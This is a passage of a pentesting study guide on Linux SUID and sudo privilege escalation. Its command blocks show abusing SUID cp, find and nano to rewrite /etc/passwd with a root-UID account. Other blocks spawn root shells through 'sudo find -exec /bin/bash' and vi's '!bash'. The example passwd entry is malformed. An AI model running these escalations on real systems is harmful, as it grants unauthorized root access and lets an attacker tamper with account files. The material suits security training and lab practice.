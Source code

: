 # 4.4.2 SUID Exploitation

## SUID Exploitation

<details>

<summary>What is SUID?</summary>

SUID, which stands for Set User ID, is a special permission in Linux and Unix-like operating systems. When an executable file has the SUID permission set, it allows the user to execute the file with the privileges of the file's owner rather than the privileges of the user who is running the program. This is particularly useful for certain system programs that need elevated privileges to perform specific tasks.

The SUID permission is represented by the letter "s" in the user permission field of the file's permission bits. When the SUID bit is set, you will see an "s" instead of an "x" in the user permission field. For example:

* If the SUID bit is set: `-rwsr-xr-x`
* If the SUID bit is not set: `-rwxr-xr-x`

Common examples of programs that use the SUID permission include `passwd` and `sudo`. These programs need elevated privileges to perform tasks like changing the user password or running commands with superuser privileges.

It's important to note that the SUID mechanism should be used with caution, as it can introduce security risks. If a poorly designed program has the SUID bit set and contains vulnerabilities, it may be exploited to gain unauthorized access or perform malicious actions with elevated privileges. Therefore, system administrators should carefully review and audit programs with the SUID bit set to ensure they are secure and necessary for system functionality.

</details>

```bash
r=read, w=write, x=execute

rwx      rwx      rwx
user     group    others
421      421      421
4+2+1=7  4+2+1=7  4+2+1=7

chmod 777 #Maximum privileges
```

{% embed url="https://linuxhint.com/special-permissions-suid-guid-sticky-bit/" %}

<div align="left"><figure><img src="../../../../.gitbook/assets/image (37).png" alt=""><figcaption><p><a href="https://linuxhandbook.com/content/images/2020/06/linux-special-permission-suid-guid-sticky-bit.png">https://linuxhandbook.com/content/images/2020/06/linux-special-permission-suid-guid-sticky-bit.png</a></p></figcaption></figure></div>

{% embed url="https://www.redhat.com/sysadmin/suid-sgid-sticky-bit" %}

```bash
#Special Permissions
SUID (user) -> rwx -> rwS
SGID (group) -> rwx -> rwS
Sticky bits (others) -> rwT

chmod u+s = chmod 4755

find / -perm -u=s -type f 2>/dev/null #find files with root owner
```

<details>

<summary>What is a SUID Exploitation?</summary>

**SUID exploitation** is a serious security concern and is often associated with unauthorized activities and hacking. System administrators should follow best practices in securing their systems, including proper configuration, regular updates, and auditing of permissions to minimize the risk of SUID-related vulnerabilities.

Here's a basic overview of SUID exploitation:

1. **Understanding SUID:**
   * SUID is a special permission that can be set on an executable file. When a user runs a program with the SUID bit set, the program runs with the privileges of the file owner rather than the user who is executing the program.
2. **Exploitation Scenario:**
   * An attacker looks for a vulnerable program with the SUID bit set. This could be a system utility or custom program that has a security flaw.
3. **Identifying Vulnerabilities:**
   * The attacker identifies vulnerabilities in the program that can be exploited to execute arbitrary code or commands. These vulnerabilities could include buffer overflows, input validation issues, or other security weaknesses.
4. **Execution of Malicious Code:**
   * The attacker creates or injects malicious code into the vulnerable program. When the SUID program is executed, it runs with elevated privileges, allowing the attacker to perform actions they wouldn't normally be allowed to do.
5. **Gaining Elevated Privileges:**
   * By exploiting the SUID program, the attacker may gain elevated privileges, enabling them to access sensitive files, manipulate system configurations, or perform other malicious activities.
6. **Mitigation:**
   * To prevent SUID exploitation, it's crucial to carefully review and audit programs with the SUID bit set. Remove unnecessary SUID permissions, and ensure that programs are secure and well-designed to resist exploitation.
7. **Regular System Audits:**
   * System administrators should conduct regular audits to identify and address potential security risks. This includes monitoring for changes in SUID permissions and reviewing the security of programs with elevated privileges.

</details>

## Suid Exploits (PoC)

### CP Command

```bash
adduser new_user #create a new user
getent passwd new_user #check if new_user exists
su new_user #switch to new_user account
cp /etc/passwd /var/www/html/ #PERMISSION DENIED!
```

Infact, if I try to use: `find / -perm -u=s -type f 2>/dev/null` there's not cp path (or in alternative see permissions of `ls -al command_path_name`). If we want to assign SUID permission at cp command, we need to use chmod u+s (path of cp command):

```bash
which cp
/usr/bin/cp
chmod u+s /usr/bin/cp #it needs root permissions
```

Now, every users can execute cp command with root permissions!

Then, we can execute the same sequence of commands regarding cp of /etc/passwd using new\_user account user:

```bash
su new_user
cp /etc/passwd /var/www/html/
```

The idea is to add a new user with root permissions and not only for cp command.

Using `openssl passwd` we generate a password with MD5 algorithm (option -1) and custom salt

```bash
openssl passwd -1 -salt new_root_user new_password
$1$new_root$qigEVpHXRPIfTT6fXhm7H0 #hash
```

Then, construct our costum account string to append in /etc/passwd file based on this format:

\<username>:\<hash>:0:0:0:root:/root:/bin/bash

```bash
new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Add it in our local copy of /etc/passw using vim or nano or copy it in original file:

```bash
nano /etc/passwd
#paste it and save: new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Finally we can log into new\_root\_user and have root privileges.

#### GTFOBins

In alternative we can do privilege escalation using commands present on [GTFOBins](https://gtfobins.github.io/gtfobins/cp/) site regarding `cp` command in the section of SUID:

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/cp/">https://gtfobins.github.io/gtfobins/cp/</a></p></figcaption></figure>

### FIND Command

In the wake of the previous example, we proceed with the find command, using the same normal user (new\_user).

```bash
which find
/usr/bin/find
ls -al /usr/bin/find
-rwxr-xr-x 1 root root 224848  8 gen  2023 /usr/bin/find
chmod u+s /usr/bin/find #give SUID permissions, it needs root permissions
```

To do privilege escalation we only need to file an existing file using find command:

```bash
find example_file -exec "whoami" \;
root
```

#### GTFOBins

in alternative we can do privilege escalation using commands present on [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) site regarding `find` command in the section of SUID:

<figure><img src="../../../../.gitbook/assets/image (16).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/find/#suid">https://gtfobins.github.io/gtfobins/find/#suid</a></p></figcaption></figure>

### NANO Command

As the last case, we do this sequence of command to do NANO SUID exploitation:

```bash
which nano
/usr/bin/nano
ls -al /usr/bin/nano
-rwxr-xr-x 1 root root 287480 18 gen  2023 /usr/bin/nano
chmod u+s /usr/bin/nano #give SUID permissions, it needs root permissions
```

Now, we can open file with root permissions like as /etc/passwd with a normal user using nano:

```bash
nano /etc/passwd
```

As the example of Copy SUID, the idea is to add a new user with root permissions and not only for nano command.

Using `openssl passwd` we generate a password with MD5 algorithm (option -1) and custom salt

```bash
openssl passwd -1 -salt new_root_user new_password
$1$new_root$qigEVpHXRPIfTT6fXhm7H0 #hash
```

Then, construct our costum account string to append in /etc/passwd file based on this format:

\<username>:\<hash>:0:0:0:root:/root:/bin/bash

```bash
new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Add it in our local copy of /etc/passw using vim or nano or copy it in original file:

```bash
nano /etc/passwd
#paste it and save: new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Finally we can log into new\_root\_user and have root privileges.

#### GTFOBins

in alternative we can do privilege escalation using commands present on [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#suid) site regarding `nano` command in the section of SUID:

<figure><img src="../../../../.gitbook/assets/image (13).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/nano/#suid">https://gtfobins.github.io/gtfobins/nano/#suid</a></p></figcaption></figure>

### RIGHT Command

Sudoers file can cantoins users with a specific root permission called SUDO Rights, e.g. new\_user ca execute `find` command as root:

```bash
visudo #to open sudoers file
root   ALL=(ALL:ALL) ALL
new_user  ALL=(root) NOPASSWD: /usr/bin/find
```

To do privilege escalation we only need to file an existing file using find command:

```bash
su new_user
sudo find /home -exec /bin/bash \;
root
```

Can we do the same for others command, e.g. vi command:

```
new_user  ALL=(root) NOPASSWD: /usr/bin/vi
```

```bash
su new_user
sudo vi example_file
!bash #write it into example_file and save using Enter
root
```

It's possible to do the same for more command such as: man, python, nano, vim, etc.

## Other resources

{% embed url="https://gtfobins.github.io/" %}
